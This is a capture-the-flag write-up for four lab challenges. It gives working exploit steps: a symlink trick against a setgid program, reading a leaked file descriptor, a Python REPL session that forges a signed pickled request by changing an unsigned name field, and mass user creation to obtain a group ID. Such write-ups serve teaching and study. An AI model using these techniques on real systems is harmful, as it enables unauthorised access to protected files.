 Simple
======

Files
-----

    -rwxr-sr-x 1 root simple  5266 Apr  6 02:08 simple
    -rw-r--r-- 1 root root     363 Apr  6 02:08 simple.c
    -rw-r----- 1 root simple    33 Apr  6 02:00 simple.flag
    -rw-r--r-- 1 root root      33 Apr  6 01:59 simple.not.the.flag

Synopsis
--------

This program opens a file named "simple.not.the.flag" and prints its contents.
The file containing the flag is named "/flags/simple.flag".

Vulnerability
-------------

The open call looks in the current directory for a file named
"simple.not.the.flag" and will follow symlinks, rather than opening the
intended file named "/flags/simple.not.the.flag" which the unprivileged user
has no control over.

Exploit
-------

Change the current directory to one in which we have write permissions.

    cd ~

Create a symlink named "simple.not.the.flag" that points to the flag file we
want.

    ln -s /flags/simple.flag simple.not.the.flag
    
Run the program from this directory.

    /flags/simple

Exec
====

Files
-----

    -rwxr-sr-x 1 root exec    6477 Apr  5 22:50 exec
    -rw-r--r-- 1 root root     883 Apr  5 22:50 exec.c
    -rw-r----- 1 root exec      33 Apr  5 00:32 exec.flag

Synopsis
--------

This program:

1. Opens the flag file "/flags/exec.flag".
2. Reads it into memory.
3. Forks a child process.
4. Drops privileges in the child process before executing a user-specified
program.
5. Waits for the child to exit.

Vulnerability
-------------

The program forgets to close the open file descriptor to the flag file before
execing the user-specified program in step 4. Step 2 is simply misdirection
supported by comments in the code.

Exploit
-------

Write a program which performs the following operations on file descriptor
number 3:

1. Seeks to the beginning of the file.
2. Reads the contents of the file and prints it out.

Run the exec program given the name of the our exploit program to execute.

RSA
===

Files
-----

    -rwxr-xr-x 1 root root     217 Apr  6 00:41 make-keys.rsa
    -rw-r----- 1 root rsa       33 Apr  5 23:19 rsa.flag
    -rw-r----- 1 root rsa     1600 Apr  6 00:48 rsa.keys
    -rwxr-xr-x 1 root root    1966 Apr  6 23:12 rsa.py
    -rwxr-sr-x 1 root rsa     5794 Apr  6 20:19 rsa-runner
    -rw-r--r-- 1 root root     468 Apr  6 20:19 rsa-runner.c

Synopsis
--------

The make-keys.rsa program is a python script which generates the rsa.keys
keystore containing a private and public key for "Alice" and a public key for
"Bob".
The rsa-runner program is a setgid wrapper for rsa.py, since interpreted
scripts cannot be run setgid.
The rsa.py program reads the flag file and the keystore into memory and then
starts a TCPServer to handle requests. When a request is received it is
unpickled into a python object and the "request" property is examined.
If the request property is the string "start" a new python object with the
following properties is pickled and sent to the remote peer:

    name = "Alice"
    request = "get_flag"
    keyid = MD5(DER encoding of Alice's public key)
    signature = Sig(keyid + ":" + request, Alice's private key)

If the request property is the string "get_flag" the message must pass these
tests before the flag is sent to the remote peer:

1. The the name property must exist in the keystore.
2. The keyid property must match the MD5 hash of a key in the keystore.
3. The name must not be the string "Alice".
4. The signature is validated against the key in the keystore which matches the
keyid property.

Vulnerability
-------------

The name property is not covered by the signature, nor is it checked against
keyid, nor is it used to select the signature verification key, so it can be
modified without detection leaving a "valid" get_flag request.

Exploit
-------

Using the python REPL, connect to the rsa.py server, send the "start" request,
and unpickle the response.

    >>> import socket, pickle
    >>> sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    >>> sock.connect(('localhost', 6666))
    >>> class Request:
    ...    pass
    ...
    >>> msg = Request()
    >>> msg.request='start'
    >>> sock.sendall(pickle.dumps(msg))
    >>> buf = sock.recv(1024)
    >>> msg2 = pickle.loads(buf)
    
Reconnect to the server (this has something to do with the way I coded rsa.py),
modify the name property of the reponse to "Bob" and send it back.

    >>> sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    >>> sock.connect(('localhost', 6666))
    >>> msg2.name='Bob'
    >>> sock.sendall(pickle.dumps(msg2))
    
Consume the response and unpickle it.

    >>> buf = sock.recv(1024)
    >>> pickle.loads(buf)

Lottery
=======

Files
-----

    -rw-r----- 1 root 1666   33 Apr  5 22:33 lottery.flag

Synopsis
--------

This is simply a flag file that can only be read by group 1666.

Vulnerability
-------------

The CTF website allows competitors to create a user and group for themselves.

Exploit
-------

Write a script to create users and groups until group number 1666 is assigned.
